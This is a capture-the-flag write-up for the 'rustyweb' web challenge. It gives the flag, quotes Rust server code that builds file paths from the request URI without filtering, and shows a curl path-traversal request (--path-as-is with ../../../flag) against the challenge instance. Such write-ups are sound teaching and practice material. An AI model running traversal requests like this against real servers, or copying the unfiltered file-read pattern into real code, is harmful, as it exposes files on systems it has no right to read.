

# rustyweb
<p align="center">
  
</p>

## FLAG:
`GPNCTF{s33_rust_n0_buGs_1ktx}`

## Solution
The challenge provides a [zip](Attachments/PixelPerfect.tar.gz) containing the web server source code. 

Particular attention should be given to the code contained in the file called *server.rs* where the possibility of carrying out path traversal through the following lines of code is deduced:

```rust
let requested_content = fs::read_to_string(format!(
        "{ABSOLUTE_STATIC_CONTENT_PATH}/{}",
        uri.get().clone().unwrap()
    ));
```

The code shows the possibility of carrying out **path traversal** since no type of filtering of what is requested is done.

So we can request the flag through the following command:

```bash
curl --path-as-is https://[istance-spawned-after-pow]-rustyweb-2.chals.kitctf.de/../../../flag
```